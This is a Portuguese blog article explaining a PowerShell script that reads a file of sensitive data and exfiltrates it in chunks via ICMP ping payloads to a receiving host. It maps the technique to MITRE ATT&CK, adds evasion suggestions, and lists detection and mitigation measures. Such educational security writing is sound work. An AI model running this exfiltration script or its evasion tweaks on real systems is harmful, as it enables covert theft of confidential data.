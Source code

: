 ```yaml
---
title: "Exfiltração de Dados Usando PowerShell e ICMP: Uma Abordagem Técnica"
date: 2024-09-27T15:07:00-03:00
featured: false
draft: false
comment: true
toc: true
reward: true
pinned: false
carousel: false
description: Este artigo aborda a exfiltração de dados via PowerShell e ICMP, explicando como um script envia dados discretamente por pacotes de ping.
series:
#  - 
categories:
 - PowerShell
 - Exfiltração de Dados
tags:
 - ICMP
 - MITRE ATT&CK
 - Cyber Kill Chain
 - Segurança de Rede
authors:
  - sandson
images:
#  - 
# menu:
#   main:
#     weight: 100
#     params:
#       icon:
#         vendor: bs
#         name: book
#         color: '#e24d0e'
---
```


## 1. Introdução

No cenário atual de segurança cibernética, a exfiltração de dados continua sendo uma das ameaças mais graves para as organizações. Técnicas avançadas, muitas vezes discretas, estão sendo desenvolvidas para contornar sistemas de detecção tradicionais. Entre essas técnicas, o uso de protocolos de rede comuns, como o ICMP (Internet Control Message Protocol), torna-se uma maneira engenhosa de transferir dados sem levantar suspeitas.

Este artigo explora uma técnica de exfiltração que utiliza PowerShell para ler um arquivo binário e transmiti-lo em partes via pacotes ICMP, com o comando ping como vetor de envio. Vamos entender completamente como o script PowerShell foi desenvolvido em detalhes e discutir seu funcionamento técnico, bem como os desafios e contramedidas que as equipes de segurança podem aplicar.

Este conteúdo tem como base uma publicação que fiz no LinkedIn, que pode ser acessada [clicando aqui](https://www.linkedin.com/feed/update/urn:li:activity:7244405255478628352/).

## 2. O problema e sua relevância

É indiscutível que constantemente novas técnicas surgem e a sofisticação das táticas de invasores, somada ao uso de ferramentas legítimas para fins maliciosos, apresenta um grande desafio para os analistas de segurança. O uso de ICMP para exfiltração de dados é uma ameaça difícil de detectar, pois o protocolo é amplamente utilizado para diagnósticos de rede e raramente é monitorado em profundidade nos sistemas de segurança tradicionais, como os SIEMs.

Além disso, o PowerShell, por ser uma ferramenta administrativa legítima, está frequentemente presente em ambientes corporativos, tornando-o uma escolha comum para movimentação lateral e exfiltração de dados. Quando combinado com o ICMP, essa abordagem pode passar despercebida por firewalls e outros sistemas de segurança que não monitoram esse tráfego.

## 3. Analisando o Script

O script apresentado é relativamente simples, mas extremamente eficiente. Vamos entender por partes:

```powershell {title="ping_exfiltration.ps1"}
$filePath = 'F:/cpf.txt'
$binaryData = [System.IO.File]::ReadAllBytes($filePath)
$ping = New-Object System.Net.NetworkInformation.Ping
$chunkSize = 50000
```

**1. Definição do Caminho do Arquivo:** O script começa definindo o caminho do arquivo alvo `F:/cpf.txt`, que será lido em formato binário. A função `[System.IO.File]::ReadAllBytes` lê o conteúdo completo do arquivo como um array de bytes. No exemplo, eu usei uma lista de CPFs gerados por ferramentas de geradores automáticos, mas na prática esse arquivo pode conter qualquer tipo de informação sensível e confidencial, como dados financeiros.

**2. Inicialização do Objeto Ping:** A classe `System.Net.NetworkInformation.Ping` é instanciada para enviar pacotes ICMP. Isso permite que o script use o protocolo ICMP echo request (mais conhecido como "ping") para enviar pacotes de dados.

**3. Definição do Tamanho dos Pacotes:** O script define o tamanho de cada chunk de dados que será enviado via ICMP. Neste caso, o valor é 50.000 bytes. Nos meus testes, o valor de 50.000 bytes foi suficiente para enviar uma lista de CPFs de 500 linhas em um único envio, só que na recepção dos logs, no tcpdump, ele veio em partes, mas mesmo assim eu recebi os CPFs completos. Iremos entender um pouco melhor mais a frente.

```powershell {title="ping_exfiltration.ps1"}
for ($i = 0; $i -lt $binaryData.Length; $i += $chunkSize) {
    $chunk = $binaryData[$i..[math]::Min($i + $chunkSize - 1, $binaryData.Length - 1)]
    $ping.Send('192.168.145.30', 1500, $chunk)
}
```
**4. Fragmentação dos Dados:** A cada iteração do loop `for`, uma parte (`chunk`) do arquivo binário é selecionada para ser enviada. A função `[math]::Min` garante que o script não tente ler além do final do array de bytes.

**5. Envio Via Ping:** Cada `chunk` é então enviado via o método `Send` do objeto `Ping`. Aqui, o IP de destino (`192.168.145.30`) representa a máquina que está recebendo os dados e lá está com o `tcpdump` ativo escutando pacotes `icmp` na rede. O tempo limite para a resposta do ping é definido como 1500 ms.

## 4. Onde o script se encaixa na Matriz do MITRE ATT&CK e na Cyber Kill Chain

### MITRE ATT&CK Framework

Este tipo de ataque pode ser mapeado diretamente no framework MITRE ATT&CK nas seguintes táticas e técnicas:

**Tactic: Exfiltration (TA0010)**

***Technique: Exfiltration Over Alternative Protocol (T1048):*** Esta técnica descreve o uso de protocolos incomuns para exfiltração de dados, como o ICMP. No nosso caso, estamos usando o comando `ping` para enviar fragmentos de um arquivo binário como payload de pacotes ICMP.

***Sub-technique: Exfiltration Over ICMP (T1048.003):*** Aqui, o uso específico de ICMP como vetor de exfiltração se aplica perfeitamente, uma vez que os dados são encapsulados e enviados por pacotes ICMP para evitar a detecção.

### Cyber Kill Chain

Dentro da **Cyber Kill Chain**, o processo descrito se encaixa na etapa de **Exfiltração**:

**1. Reconhecimento:** O atacante identifica que a rede permite tráfego ICMP e que o host de destino está acessível.

**2. Instalação e Comando & Controle (C2):** O script pode ser executado após o comprometimento da máquina, estabelecendo comunicação com o servidor de C2 através de pacotes ICMP, disfarçados de tráfego normal de diagnóstico.

**3. Exfiltração:** O atacante utiliza o script para fragmentar e enviar os dados sensíveis para fora da rede, evitando sistemas de monitoramento tradicionais.

## 5. Considerações Técnicas

**Limitações de Tamanho de Pacotes ICMP**

Embora o script esteja configurado para fragmentar o arquivo em pedaços de 50.000 bytes, o tamanho de pacotes ICMP geralmente não suporta fragmentos tão grandes. O valor típico é algo entre 1.470 e 1.480 bytes, dependendo da configuração da rede (MTU). Portanto, em um cenário real, esse tamanho precisaria ser ajustado para evitar que os pacotes sejam rejeitados. Nos meus testes, como falei mais acima, alterando o tamanho do pacote, ele me enviou vários pedaços menores várias vezes com uma única execução, mas um pacote do ICMP completo foi de 1472 bytes.

**Detecção de Tráfego ICMP**

O ICMP, geralmente, não é filtrado de forma agressiva em firewalls, uma vez que é utilizado para diagnósticos de rede. No entanto, a transmissão de pacotes ICMP contendo dados pode levantar suspeitas se o tráfego for analisado de perto. Ferramentas de análise de rede, como o Wireshark, podem identificar anomalias no payload dos pacotes ICMP. Outra forma também de identificar, é o tamanho do pacote. Por padrão, um ping tem entre 32 bytes e 40 bytes. Se passar disso, é possível que exista uma anomalia na rede e precisa ser investigado. Verificar também picos de tráfego na rede.

**Uso de PowerShell**

A Microsoft tem melhorado as medidas de segurança no Windows PowerShell. A ativação do PowerShell Logging e a utilização de ferramentas como Windows Defender Advanced Threat Protection (WDATP) podem capturar tentativas de execução de scripts maliciosos como este. No entanto, invasores podem tentar contornar esses controles com a execução de scripts em memória ou o uso de técnicas de evasão.

**Evasão de Segurança**

Para aumentar a furtividade, scripts como este podem utilizar técnicas adicionais, como criptografia dos dados antes da exfiltração ou fragmentação em pacotes menores para reduzir o risco de detecção. Outra técnica seria o envio aleatório de pacotes ao longo do tempo para evitar picos de tráfego suspeitos (É até engraçado, porque logo acima eu falei que picos de tráfego ICMP podem ser indícios de que algo está errado e aqui estou mostrando uma forma de ser furtivo hahahaha).

## 6. Desafios e Contramedidas

**Monitoramento de ICMP:** Implementar monitoramento e filtragem mais rigorosos de pacotes ICMP é uma das maneiras mais eficazes de mitigar essa técnica. Ferramentas de análise de tráfego de rede podem ser configuradas para alertar sobre tráfego ICMP incomum.

**Uso de PowerShell Constrained Language Mode:** Esse modo limita as funcionalidades do PowerShell, restringindo o uso de alguns comandos e objetos que podem ser usados de maneira maliciosa.

**Deep Packet Inspection (DPI):** Firewalls que utilizam DPI podem identificar e bloquear pacotes ICMP que contêm dados além do esperado, prevenindo a exfiltração.

## 7. Conclusão

A técnica descrita neste artigo ilustra como um invasor pode usar ferramentas legítimas para executar ações maliciosas de forma furtiva. O uso de PowerShell combinado com pacotes ICMP é uma abordagem engenhosa para a exfiltração de dados, que pode passar despercebida se não forem implementados controles de segurança adequados.

Este tipo de ataque enfatiza a importância de uma estratégia de defesa em profundidade, onde cada camada de segurança, desde o endpoint até a rede, desempenha um papel muito importante na defesa, detecção e mitigação de ameaças.